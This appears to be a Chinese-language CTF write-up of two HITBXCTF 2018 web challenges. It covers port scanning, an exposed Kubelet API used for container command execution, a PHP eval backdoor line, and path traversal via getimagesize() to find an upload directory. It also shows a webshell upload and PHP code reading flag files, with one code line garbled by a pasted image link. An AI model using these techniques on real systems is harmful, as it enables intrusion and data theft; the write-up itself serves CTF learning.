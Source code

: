 ```yaml
---
title: HITBXCTF2018-Baby baby && upload
date: 2018-04-18 20:43:33
tags:
	- CTF
	- Writeup
---
```

前几天在HITBXCTF划了波水，就做出了几个水题，不过题目考察的东西还是挺新的，写个Writeup记一下。
<!-- more -->
### 1. Web-Baby baby

#### 1.1 题目要求
```
This is a pentest challenge, target 47.75.146.42
http://47.75.146.42
```



### 1.2 解题步骤

直接访问没啥有价值的东西，使用Nmap扫描端口

命令：
```
nmap -v -sV -p- 47.75.146.42
```

结果
```
PORT      STATE  SERVICE       VERSION
22/tcp    open   ssh           OpenSSH 7.4 (protocol 2.0)
80/tcp    open   http          nginx 1.12.2
443/tcp   closed https
2333/tcp  closed unknown
3389/tcp  closed ms-wbt-server
8009/tcp  closed ajp13
9999/tcp  open   http          nginx 1.12.2
10250/tcp open   ssl/unknown
```

大致测了测，9999端口不解析php，
直接访问：`http://47.75.146.42:9999/index.php`

下载`index.php`
```
This is a pentest challenge, open your mind!
<img style="width: 300px;" src="jd.png" alt="the picture is unrelated to this challenge, just a advertisement" />

<?php
    eval($__POST["backdoor"]);
?>
```
没啥用，查10250端口,找到一篇博客，上面写得很详细，直接利用。

```
https://ricterz.me/posts/Security%20Issues%20of%20Kubelet%20HTTP%28s%29%20Server
```

通过 /runningpods 获取正在运行的 Pod 列表：
```
https://47.75.146.42:10250/runningpods
```

![](https://image.mengsec.com/HITBCTF2018-Web-baby-1.png)

然后有命令执行漏洞，可以在容器里执行命令。一个个找flag

![](https://image.mengsec.com/HITBCTF2018-Web-baby-2.png)

在根目录发现flag.txt,直接读取

![](https://image.mengsec.com/HITBCTF2018-Web-baby-3.png)

HITB{KKKKKKKKKKKKKKKKKKKKKKKKK}


### 2. Web-Upload

#### 2.1 题目要求
```
Get shell !
http://47.90.97.18:9999
```
题目环境是Windows IIS7.0+php
直接右键查看源代码，发现提示。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-1.png)
```
<!--pic.php?filename=default.jpg-->
```
访问一下，会返回default.jpg的长和宽


随便找个文件上传，回显了一个文件名。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-2.png)

令filename=返回的文件名，会给出上传图片的长和宽。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-3.png)

看样子后台用函数getimagesize()来处理文件，但是PHP中getimagesize()函数有漏洞，这和前几天dedecms爆后台目录的原理一眼，详情
```
http://www.freebuf.com/column/164698.html
```

然后可以借助pic.php的功能来穷举出上传文件的目录，由于爆破的人太多，使用burp单线程进行爆破，如图，这样就知道目录第一个字符是8,依次往后一位位找。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-4.png)

最后就能得到文件上传的目录
```
?filename=..\..\..\..\..\..\inetpub\wwwroot\87194f13726af7cee27ba2cfe97b60df\1523619718.png
```
![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-5.png)

然后就可以直接上传shell。

> 参考链接：https://thief.one/2016/09/22/%E4%B8%8A%E4%BC%A0%E6%9C%A8%E9%A9%AC%E5%A7%BF%E5%8A%BF%E6%B1%87%E6%80%BB-%E6%AC%A2%E8%BF%8E%E8%A1%A5%E5%85%85/

利用Windows系统特性，构造：

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-6.png)

直接上传后，访问，成功解析。

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-7.png)

在phpinofo()中查看被禁用的函数
```
assert,passthru,exec,system,chroot,scandir,chgrp,chown,shell_exec,proc_open,proc_get_status,ini_alter,ini_alter,ini_restore,dl,pfsockopen,openlog,syslog,readlink,symlink,popepassthru,stream_socket_server,fsocket,fsockopen
```
构造代码列出目录文件。
```
function listDirFiles($DirPath){ 
    if($dir = opendir($DirPath)){ 
         while(($file = readdir($dir))!== false){ 
                if(!is_dir($DirPath.$file)) 
                { 
                    echo "filename: $file<br />"; 
                } 
         } 
    } 
}
listDirFiles('c:/Inetpub/wwwroot/');
```
利用hackbar进行URL编码后上传。发现有flag.php

![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-8.png)

再构造代码
```
<?php
  $filename = "c:/Inetpub/wwwroot/flag.php";
  $handle = fopen($filename, "r");
  $contents = fread($h![image](https://note.youdao.com/favicon.ico)andle, filesize($filename));
  echo $contents;
  fclose($handle);
?>
```
![image](https://image.mengsec.com/HITBXCTF2018-Web-upload-9.png)

成功获取flag